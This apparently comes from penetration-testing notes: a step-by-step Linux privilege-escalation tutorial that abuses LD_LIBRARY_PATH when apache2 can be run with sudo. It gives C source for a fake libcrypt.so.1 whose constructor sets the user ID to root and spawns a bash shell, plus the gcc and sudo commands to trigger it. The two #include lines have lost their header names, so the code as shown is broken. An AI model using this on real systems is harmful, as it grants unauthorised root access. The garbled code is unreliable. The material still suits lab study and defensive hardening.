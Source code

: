 # LD\_LIBRARY\_PATH

The LD\_LIBRARY\_PATH environment variable contains a set of directories where shared libraries are searched for first.

The ldd command can be used to print the shared libraries used by a program:

#### `ldd /usr/sbin/apache2`

By creating a shared library with the same name as one used by a program, and setting LD\_LIBRARY\_PATH to its parent directory, the program will load our shared library instead.

Run ldd against the apache2 program file:

#### `ldd /usr/sbin/apache2`

![](../../../../.gitbook/assets/1%20%2818%29.png)

Hijacking shared objects using this method is hit or miss. Choose one from the list and try it \(libcrypt.so.1 seems to work well\).

Create a file \(library\_path.c\) with the following contents:

#### `#include  #include  static void hijack() __attribute__((constructor));  void hijack() {  unsetenv("LD_LIBRARY_PATH");  setresuid(0,0,0);  system("/bin/bash -p");  }` 

Compile library\_path.c into libcrypt.so.1:

#### `gcc -o libcrypt.so.1 -shared -fPIC library_path.c`

Run apache2 using sudo, while setting the LD\_LIBRARY\_PATH environment variable to the current path \(where we compiled library\_path.c\):

#### `sudo LD_LIBRARY_PATH=. apache2`

![](../../../../.gitbook/assets/env4.png)











